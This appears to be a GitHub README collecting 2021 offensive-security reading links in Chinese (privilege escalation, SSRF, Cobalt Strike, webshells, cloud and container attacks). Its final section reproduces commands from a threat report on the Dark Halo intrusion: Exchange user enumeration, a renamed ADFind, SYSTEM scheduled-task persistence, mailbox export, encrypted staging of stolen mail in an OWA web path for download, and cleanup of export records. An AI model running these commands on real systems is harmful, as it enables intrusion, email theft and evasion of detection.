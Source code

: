 # 2021-Read-article

有兴趣可以看看我的云渗透课程：https://www.yuque.com/u8047536/supvqp/ri4ft0

## 渗透

https://github.com/ihebski/DefaultCreds-cheat-sheet
> 网络设备默认密码

- [JumpServer 从信息泄露到远程代码执行漏洞分析](https://blog.riskivy.com/jumpserver-%E4%BB%8E%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E5%88%B0%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
> 标题描述有问题，泄漏机器user_id等，通过websocket获取token，再利用token通过相关的API来执行机器中的命令；

- [A Glossary of Blind SSRF Chains](https://blog.assetnote.io/2021/01/13/blind-ssrf-chains/)
> 关于Blind SSRF利用

- [CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)
> SUDO提权：
> make && ./sudo-hax-me-a-sandwich

https://github.com/Kyuu-Ji/Awesome-Azure-Pentest
> Azure渗透测试资料

https://afinepl.medium.com/testing-and-exploiting-java-deserialization-in-2021-e762f3e43ca2
> Java反序列化

- [offensive-security-guide-to-ssh-tunnels-and-proxies](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)

- [红蓝对抗中的云原生漏洞挖掘及利用实录](https://mp.weixin.qq.com/s/Aq8RrH34PTkmF8lKzdY38g)
> 2020年演练通过云原生突破进入内网；

> 容器环境收集收集技巧，Docker逃逸一些技巧和漏洞利用

> 编排组件API配置不当等：kubelet、etcd、dashboard


- [负载均衡下的 WebShell 连接](https://mp.weixin.qq.com/s/4Bmz_fuu0yrLMK1oBKKtRA)
> 通过代理脚本判断之后执行命令

- [CobaltStrike插件编写指南](https://mp.weixin.qq.com/s/i7QzwMAmUyxoBs0CwcGC-g)

- [渗透大型菠菜网站鸭脖](https://mp.weixin.qq.com/s/sJAyhQQvGqG-SliSGbhJNA)

- [HackTricks](https://book.hacktricks.xyz/)

- [web安全-数据验证不当](https://www.yuque.com/pmiaowu/web_security_1)

- [Atomic Red Team adds tests for cloud and containers](https://redcanary.com/blog/art-cloud-containers/)
> Atomic Red Team一直专注于传统的Windows端口，其实大部分云基础设施都是在Linux上运行

- [红队硬件工具包](https://github.com/sectool/redteam-hardware-toolkit)

- [安全建设-攻防思路及实践（一）](https://paper.seebug.org/1637/)

- [Exchange攻击方法](https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html?m=1)

- [RedTeam笔记](https://kwcsec.gitbook.io/the-red-team-handbook/)

- [Zabbix攻击面](http://noahblog.360.cn/zabbixgong-ji-mian-wa-jue-yu-li-yong/)

- [COBALTSTIRKE BOF技术剖析（一）](http://blog.nsfocus.net/cobaltstirke-bof/)
> 内存中不落地执行，避免针对文件内容的检测，在本进程加载执行BOF中的功能代码。

- [MYSQL存在注入点，写WEBSHELL的5种方式](https://manning23.github.io/2019/07/23/MYSQL%E5%AD%98%E5%9C%A8%E6%B3%A8%E5%85%A5%E7%82%B9%EF%BC%8C%E5%86%99WebShell%E7%9A%845%E7%A7%8D%E6%96%B9%E5%BC%8F/)

- [红蓝对抗之隐蔽通信应用及防御](https://mp.weixin.qq.com/s/huDegnt6oMg-drOB0SyZfg)

- [Compromising vCenter via SAML Certificates](https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/)
> 通过读取data.mdb中的证书，通过证书请求获取管理员cookie

- [Public Pentest reports](https://pentestreports.com/reports/)
> 国外公开渗透测试报告模板

- [Serverless 扫描技术研究及应用](https://paper.seebug.org/1776/)

- [CVE-2021-42287/CVE-2021-42278 漏洞复现](https://www.yuque.com/0xcccccccc/vul/wean9o?)


## 内网渗透

- [dark-halo-leverages-solarwinds-compromise-to-breach-organizations](https://www.volexity.com/blog/2020/12/14/dark-halo-leverages-solarwinds-compromise-to-breach-organizations/)
```bash
使用Get-ManagementRoleAssignment获取用户列表
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-ManagementRoleAssignment -GetEffectiveUsers | select Name,Role,EffectiveUserName,AssignmentMethod,IsValid | ConvertTo-Csv -NoTypeInformation | % {$_ -replace ‘`n’,’_’} | Out-File C:\temp\1.xml"
 
获取虚拟目录配置信息
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-WebServicesVirtualDirectory | Format-List"
 
查询组织管理成员，sqlceip.exe其实是ADFind.exe
C:\Windows\system32\cmd.exe /C sqlceip.exe -default -f (name="Organization Management") member -list | sqlceip.exe -f objectcategory=* > .\SettingSync\log2.txt
 
创建计划任务
$scheduler = New-Object -ComObject ("Schedule.Service");$scheduler.Connect($env:COMPUTERNAME);$folder = $scheduler.GetFolder("\Microsoft\Windows\SoftwareProtectionPlatform");$task = $folder.GetTask(“EventCacheManager”);$definition = $task.Definition;$definition.Settings.ExecutionTimeLimit = “PT0S”;$folder.RegisterTaskDefinition($task.Name,$definition,6,”System”,$null,5);echo “Done”
 
C:\Windows\system32\cmd.exe /C schtasks /create /F /tn “\Microsoft\Windows\SoftwareProtectionPlatform\EventCacheManager” /tr “C:\Windows\SoftwareDistribution\EventCacheManager.exe” /sc ONSTART /ru system /S [machine_name] 
 
密取数据：
使用New-MailboxExportRequest 和 Get-MailboxExport-Request 命令从邮箱中窃取数据
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command “New-MailboxExportRequest -Mailbox foobar@organization.here -ContentFilter {(Received -ge ’03/01/2020′)} -FilePath ‘\\<MAILSERVER>\c$\temp\b.pst'”
 
7z打包加密
C:\Windows\system32\cmd.exe /C .\7z.exe a -mx9 -r0 -p[33_char_password]  “C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\Redir.png” C:\Temp\b.pst
 
https://owa.organization.here/owa/auth/Redir.png
\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\
 
同步邮件
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command “Set-CASMailbox -Identity <UserID> -ActiveSyncAllowedDeviceIDs @{add=’XXXXXXXXXXXXX’}"
 
清除记录：
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-MailboxExportRequest -Mailbox user@organization.here | Remove-MailboxExportRequest -Confirm:$False"
```






